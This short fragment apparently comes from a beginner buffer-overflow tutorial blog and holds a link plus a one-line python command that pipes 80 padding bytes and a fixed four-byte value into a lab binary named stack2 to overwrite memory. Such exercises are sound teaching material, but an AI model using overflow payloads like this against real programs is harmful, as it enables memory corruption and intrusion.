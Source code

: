 https://h4ckbl0g.github.io/Buffer-Overflow-basico/

```python
python3 -c 'print("A"*80 + "\x05\x03\x02\x01")' | ./stack2
```
